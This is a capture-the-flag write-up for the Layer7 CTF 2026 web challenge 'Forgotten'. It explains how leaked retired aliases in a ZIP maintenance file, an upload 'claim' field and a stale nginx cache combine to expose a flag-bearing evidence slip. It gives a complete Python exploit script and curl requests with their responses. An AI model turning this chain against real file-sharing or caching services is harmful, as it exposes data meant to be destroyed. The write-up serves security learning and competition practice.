


Forgotten¶
VERIFIED WEB 980 pts id 11
| Field | Value |
|---|---|
| Event | Layer7 CTF 2026 |
| Category | web |
| Points | 980 |
| Solved at | 2026-11-21 09:50:06+07:00 |
| Flag | Layer7{WowieZombie} |
| Status | VERIFIED |
TL;DR¶
Forgotten is a Rust/axum file-sharing service. Reporting a file makes the
service generate a review-only evidence slip whose reviewer-token field is
actually the challenge flag, then it "destroys" the slip by expiring it.
Two mistakes keep the data alive:
- Album downloads larger than 8 KiB run a snapshot-maintenance pass that
writes
maintenance.jsoninto the ZIP, listing every retired alias, including the evidence slip alias. - The CDN/nginx in front of the app cached the review fetch of
/f/<evidence_alias>. After restoring that alias with the uploadclaimfield, the stale cached evidence slip is served again — flag included.
Recon¶
python3 l7.py chall 11
python3 l7.py file 11
The challenge provides a Linux x86-64 Rust binary (for_user/forgotten) and
the service runs at http://172.237.8.236:8080.
$ file forgotten
ELF 64-bit LSB pie executable, x86-64, dynamically linked, not stripped
$ strings -a forgotten | grep -E '/api/|/album|/f/|reviewer-token|Layer7'
... /health /f/{alias} /api/upload /api/albums /album/{id}/download /api/reports
... x-forgotten-review-session
... could not read claim
... claim may be specified at most once
... claim must be a 16-character retired alias
... that retired link is not available for restore
... This link is reserved for the review pipeline.
... This file no longer exists.
... Forgotten internal evidence slip\nticket: ...
... reviewer-token: ...
... Layer7{local_fake_flag_set_a_real_flag_on_the_server}
... {"service":"forgotten","task":"snapshot maintenance","retired":
The binary was unstripped, so the relevant functions were easy to locate:
forgotten::report_file— builds the evidence slip and asks the edge to review it.forgotten::store::Store::{put, expire, get_live, snapshot_reclaim, claim}.forgotten::validator— computes the ETag of a blob.forgotten::get_file— serves/f/{alias}; review-only blobs require thex-forgotten-review-sessionheader.
Static analysis of report_file showed the generated slip body:
Forgotten internal evidence slip
ticket: <uuid>
classification: staff-only
reviewer-token: <FLAG env>
and that report_file puts it with flag 1 (review-only) and calls
Store::expire on it after the edge request.
Store::snapshot_reclaim only retires blobs that are review-only, expired,
and expired for at least 30 seconds. It is called from download_album only
when the ZIP already exceeded 0x1fff (8191) bytes, and the reclaimed aliases
are serialized into a maintenance.json entry inside the ZIP.
Analysis¶
The chain that keeps a "destroyed" file recoverable is:
POST /api/reports→ evidence slip created (contains flag) and expired.-
8 KiB album download →
snapshot_reclaimmoves the expired slip into the retired map andmaintenance.jsonleaks its alias. POST /api/uploadwith multipart fieldclaim=<alias>restores that alias as a normal live link.- nginx cached the original edge review request to
/f/<alias>; the cached response is still the evidence slip, so a plainGET /f/<alias>after the claim returns the slip. A query string (?x=1) misses that cache entry and shows the post-claim dummy content instead.
Exploit¶
Full script: work/11/exploit.py
#!/usr/bin/env python3
import io, json, re, sys, time, zipfile
import requests
BASE = sys.argv[1].rstrip("/") if len(sys.argv) > 1 else "http://172.237.8.236:8080"
S = requests.Session()
def upload(name, data, claim=None):
r = S.post(f"{BASE}/api/upload", files={"file": (name, data)},
data={"claim": claim} if claim else None, timeout=30)
r.raise_for_status()
return r.json()
# 1. big file -> album ZIP > 8191 bytes -> snapshot maintenance runs
big = upload("big.bin", b"A" * 12000)["alias"]
# 2. report a live file -> evidence slip (contains the flag) + CDN cache entry
victim = upload("victim.txt", b"please review me\n")["alias"]
print(S.post(f"{BASE}/api/reports",
json={"file": victim, "reason": "spam"}, timeout=60).text)
# 3. the reclaimer requires the blob to be expired for >= 30 s
time.sleep(32)
# 4. trigger snapshot_reclaim and read the leaked retired aliases
album = S.post(f"{BASE}/api/albums", json={"title": "m", "files": [big]},
timeout=30).json()["id"]
z = S.get(f"{BASE}/album/{album}/download", timeout=30)
with zipfile.ZipFile(io.BytesIO(z.content)) as zf:
retired = json.loads(zf.read("maintenance.json"))["retired"]
# 5. claim a retired evidence alias and read the stale cached slip
for alias in retired:
c = S.post(f"{BASE}/api/upload", files={"file": ("evidence.txt", b"dummy-content\n")},
data={"claim": alias}, timeout=30)
if c.status_code != 200:
continue
body = S.get(f"{BASE}/f/{alias}", timeout=30).text
m = re.search(r"Layer7\{[^}]+\}", body)
if m:
print(alias, m.group(0))
print(body)
break
Evidence¶
Report request succeeded and created the review-only evidence slip:
POST /api/reports {"file":"37d9b5f4c0a24928","reason":"probe"}
HTTP/1.1 200 OK
{"message":"Thank you for helping keep Forgotten safe.","status":"reviewed"}
After >30 s, a 12 KiB album download leaked the retired aliases:
$ unzip -p remote_album.zip maintenance.json
{"service":"forgotten","task":"snapshot maintenance","retired":["025955cdde7a411e","03c6c49b8f864eb3", ... ,"f837c78c561a4e45"]}
Claiming one retired alias restored the link:
$ curl -F 'file=@dummy.txt;filename=evidence.txt' -F 'claim=025955cdde7a411e' \
http://172.237.8.236:8080/api/upload
{"alias":"025955cdde7a411e","url":"/f/025955cdde7a411e","size":14,"restored":true}
The plain URL hit the stale CDN cache entry for the evidence slip:
$ curl -i http://172.237.8.236:8080/f/025955cdde7a411e
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Content-Length: 141
etag: "d79476a3836e169a"
cache-control: public, max-age=2
content-disposition: inline; filename="evidence.txt"
X-Cache-Status: REVALIDATED
Forgotten internal evidence slip
ticket: 7300682b-59f1-4eff-a13d-1a79f3f89811
classification: staff-only
reviewer-token: Layer7{WowieZombie}
The query-string request bypassed the cached entry and showed the post-claim dummy content (same ETag, different body), confirming that the flag came from the stale cache of the original evidence fetch:
$ curl -i 'http://172.237.8.236:8080/f/025955cdde7a411e?bypass=1'
HTTP/1.1 200 OK
Content-Length: 14
etag: "d79476a3836e169a"
dummy-content
Submission (proof in work/11/submit.json):
$ python3 l7.py submit 11 'Layer7{WowieZombie}'
200 {"correct": true, "ctf_state": "active"}
Artifacts in work/11/: exploit.py, maintenance.json,
evidence_fetch_headers.txt, evidence_fetch_body.txt,
evidence_query_bypass_headers.txt, evidence_query_bypass_body.txt,
submit.json.
Flag¶
Layer7{WowieZombie}
Evidence¶
Platform submission¶
{
"submitted_at": "2026-11-21T02:50:06.733790+00:00",
"challenge_id": "11",
"flag": "Layer7{WowieZombie}",
"http_status": 200,
"response": {
"correct": true,
"ctf_state": "active"
}
}

Captured solver transcript¶
Full raw log: evidence/11-forgotten-transcript.txt

Flag¶
Layer7{WowieZombie}
Submitted and accepted on the platform at
2026-11-21 09:50:06+07:00(Asia/Jakarta).